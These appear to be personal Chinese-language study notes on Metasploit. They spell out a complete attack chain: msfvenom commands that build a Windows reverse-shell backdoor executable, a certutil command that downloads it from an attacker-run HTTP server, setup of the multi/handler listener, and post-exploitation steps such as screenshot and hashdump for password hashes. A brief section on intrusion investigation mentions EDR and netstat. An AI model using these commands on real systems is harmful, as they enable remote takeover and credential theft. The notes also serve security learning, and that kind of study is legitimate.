



metadploit

# 文件类型
## ELF:Linux
## apk:Android手机安装包,非可执行文件
## macho:Macos

# metasploit

# msfvenom生成后门木马(windows可执行程序后门):msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.234.137 lport=9999 -f exe -o test.exe

## -p:payload
## windows/x64/meterpreter/reverse_tcp:payload name(系统/架构/作用/方式)
## lhost=192.168.234.137 lport=9999 :payload设置,kali的服务器ip以及服务器的监听端口
## -f:format output
## exe:windows可执行文件
## -o:output

# python3 -m http.server 10000:使用python快速地打开一个端口

# certutil -urlcache -split -f http://192.168.254.129:10000/test.exe

## certutil:windows证书管理工具,具有下载文件的功能
## -urlcache:固定死的
## http://kali的ip:10000/需要下载的文件

# msfconsole:启动metasploit命令行

## msf使用法则:
### 1、使用模块:use(module name)
### 2、配置模块必选项:set(option_name)(value)
### 3、运行模块:run

## use exploit/multi/handler
### (1)exploit:攻击
### (2)multi:多个的,多种的
### (3)handle:处理模块

## set payload windows/x64/meterpreter/reverse_tcp
## set lhost 192.168.254.129
## set lport 9999
## run

## screenshot:截图
## hashdump:获取操作系统的密码,但是获取不了win10、11的明文密码,只能得到加密过的密码(NTML加密)

# 入侵排查

## EDR(Endpoint Detextion and Response):端点检测与响应
## 看开放端口:netstat -ano